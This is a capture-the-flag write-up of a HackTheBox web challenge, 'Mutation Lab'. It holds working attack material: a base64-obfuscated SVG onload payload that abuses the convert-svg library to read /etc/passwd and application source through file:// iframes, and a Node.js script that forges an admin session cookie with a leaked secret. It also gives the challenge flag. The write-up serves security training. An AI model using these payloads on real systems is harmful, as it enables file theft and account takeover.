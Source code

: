 ```yaml
---
Category:
  - Web
Difficulty: Medium
Platform: HackTheBox
Status: 3. Complete
tags:
  - LFI
  - convert-svg
  - forging-cookies
  - nodejs
  - path-traversal
  - Linux
---
```

>[!quote]
> *One of the renowned scientists in the research of cell mutation, Dr. Rick, was a close ally of Draeger. The by-products of his research, the mutant army wrecked a lot of havoc during the energy-crisis war. To exterminate the leftover mutants that now roam over the abandoned areas on the planet Vinyr, we need to acquire the cell structures produced in Dr. Rick's mutation lab. Ulysses managed to find a remote portal with minimal access to Dr. Rick's virtual lab. Can you help him uncover the experimentations of the wicked scientist?*


# Set up

- Code or test environment is not provided

# Information Gathering

## The application at-a-glance 🔍

Login and registration page:

![Untitled](../../zzz_res/attachments/Mutation%20Lab%203541e65977024bc790ee974c481cc75a.png)

Registered an account and enumerated the internal area:

```
POST /api/register HTTP/1.1
Host: 159.65.59.5:30872
Connection: keep-alive
Content-Length: 43
User-Agent: USR_ozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://159.65.59.5:30872
Referer: http://159.65.59.5:30872/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJ1c2VybmFtZSI6InRlc3QifQ==; session.sig=XgGOoiot_fWo-RqRnE9KGES0Ak0

{"username":"maoutis","password":"maoutis"}
```

```
POST /api/login HTTP/1.1
Host: 159.65.59.5:30872
Connection: keep-alive
Content-Length: 43
User-Agent: USR_ozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://159.65.59.5:30872
Referer: http://159.65.59.5:30872/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJ1c2VybmFtZSI6InRlc3QifQ==; session.sig=XgGOoiot_fWo-RqRnE9KGES0Ak0

{"username":"maoutis","password":"maoutis"}

HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 46
ETag: W/"2e-FCTfdnBNtsqc3wjjuhAwgZEEoU8"
Set-Cookie: session=eyJ1c2VybmFtZSI6Im1hb3V0aXMifQ==; path=/; httponly
Set-Cookie: session.sig=70TxHPv6O9FMkh4rZ15iQsMQ-AM; path=/; httponly
Date: Mon, 18 Jul 2022 14:29:14 GMT
Connection: keep-alive
Keep-Alive: timeout=5
```

![Untitled](../../zzz_res/attachments/Mutation%20Lab%203541e65977024bc790ee974c481cc75a%201.png)

Export cell structure:

![Untitled](../../zzz_res/attachments/Mutation%20Lab%203541e65977024bc790ee974c481cc75a%202.png)

![Untitled](../../zzz_res/attachments/Mutation%20Lab%203541e65977024bc790ee974c481cc75a%203.png)

# The Bug

[https://github.com/neocotic/convert-svg/issues/81](https://github.com/neocotic/convert-svg/issues/81)

[https://github.com/neocotic/convert-svg/issues/84](https://github.com/neocotic/convert-svg/issues/84)

[https://github.com/neocotic/convert-svg/issues/86](https://github.com/neocotic/convert-svg/issues/86)

```
POST /api/export HTTP/1.1
Host: 159.65.59.5:30872
Content-Length: 404
User-Agent: USR_ozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://159.65.59.5:30872
Referer: http://159.65.59.5:30872/dashboard
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJ1c2VybmFtZSI6InVzZXIifQ==; session.sig=Xu_rjB4ONsGxnu1Hfe5GdUaEuyY
Connection: close

{"svg":"<svg onload=eval(atob(this.id)) id='ZG9jdW1lbnQud3JpdGUoJzxzdmctZHVtbXk+PC9zdmctZHVtbXk+PGlmcmFtZSBzcmM9ImZpbGU6Ly8vZXRjL3Bhc3N3ZCIgd2lkdGg9IjEwMCUiIGhlaWdodD0iMTAwMHB4Ij48L2lmcmFtZT48c3ZnIHZpZXdCb3g9IjAgMCAyNDAgODAiIGhlaWdodD0iMTAwMCIgd2lkdGg9IjEwMDAiIHhtbG5zPSJodHRwOi8vd3d3LnczLm9yZy8yMDAwL3N2ZyI+PHRleHQgeD0iMCIgeT0iMCIgY2xhc3M9IlJycnJyIiBpZD0iZGVtbyI+ZGF0YTwvdGV4dD48L3N2Zz4nKTs='></svg>"
}
```

[CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=Wkc5amRXMWxiblF1ZDNKcGRHVW9Kenh6ZG1jdFpIVnRiWGsrUEM5emRtY3RaSFZ0YlhrK1BHbG1jbUZ0WlNCemNtTTlJbVpwYkdVNkx5OHZaWFJqTDNCaGMzTjNaQ0lnZDJsa2RHZzlJakV3TUNVaUlHaGxhV2RvZEQwaU1UQXdNSEI0SWo0OEwybG1jbUZ0WlQ0OGMzWm5JSFpwWlhkQ2IzZzlJakFnTUNBeU5EQWdPREFpSUdobGFXZG9kRDBpTVRBd01DSWdkMmxrZEdnOUlqRXdNREFpSUhodGJHNXpQU0pvZEhSd09pOHZkM2QzTG5jekxtOXlaeTh5TURBd0wzTjJaeUkrUEhSbGVIUWdlRDBpTUNJZ2VUMGlNQ0lnWTJ4aGMzTTlJbEp5Y25KeUlpQnBaRDBpWkdWdGJ5SStaR0YwWVR3dmRHVjRkRDQ4TDNOMlp6NG5LVHM9)

![Untitled](../../zzz_res/attachments/Mutation%20Lab%203541e65977024bc790ee974c481cc75a%204.png)

# Exploitation

Leaked the application source code:

```json
{"svg":"<svg onload=eval(atob(this.id)) id='ZG9jdW1lbnQud3JpdGUoJzxzdmctZHVtbXk+PC9zdmctZHVtbXk+PGlmcmFtZSBzcmM9ImZpbGU6Ly8vYXBwL3JvdXRlcy9pbmRleC5qcyIgd2lkdGg9IjEwMCUiIGhlaWdodD0iMTAwMHB4Ij48L2lmcmFtZT48c3ZnIHZpZXdCb3g9IjAgMCAyNDAgODAiIGhlaWdodD0iMTAwMCIgd2lkdGg9IjEwMDAiIHhtbG5zPSJodHRwOi8vd3d3LnczLm9yZy8yMDAwL3N2ZyI+PHRleHQgeD0iMCIgeT0iMCIgY2xhc3M9IlJycnJyIiBpZD0iZGVtbyI+ZGF0YTwvdGV4dD48L3N2Zz4nKTs='></svg>"
}
```

![Untitled](../../zzz_res/attachments/Mutation%20Lab%203541e65977024bc790ee974c481cc75a%205.png)

Leaked index.js

![Untitled](../../zzz_res/attachments/Mutation%20Lab%203541e65977024bc790ee974c481cc75a%206.png)

Leaked SESSION_SECRET_KEY: `fc8c7ef845baff7935591112465173e7`

![Untitled](../../zzz_res/attachments/Mutation%20Lab%203541e65977024bc790ee974c481cc75a%207.png)

Wrote a simple Node.JS script to generate and admin session cookie:

```jsx
var express = require('express')
const cookieSession = require('cookie-session');

var server = express()

server.use(cookieSession({
  name: "session",
  keys: ['fc8c7ef845baff7935591112465173e7'],
  Maxage: 20 * 60 * 1000 // valid for 20 minutes
}));

server.get('/', function (req, res, next) {
  // Update views
  req.session.username = "admin"

  // Write response
  res.end(req.session.username + ' views')
})

console.log('Up and running on port 1337...');
server.listen(1337);
```

![Untitled](../../zzz_res/attachments/Mutation%20Lab%203541e65977024bc790ee974c481cc75a%208.png)

Updated the cookies against the target and obtained the flag:

![Untitled](../../zzz_res/attachments/Mutation%20Lab%203541e65977024bc790ee974c481cc75a%209.png)

# Flag

>[!success]
>`HTB{fr4m3d_s3cr37s_4nd_f0rg3d_entr13s}`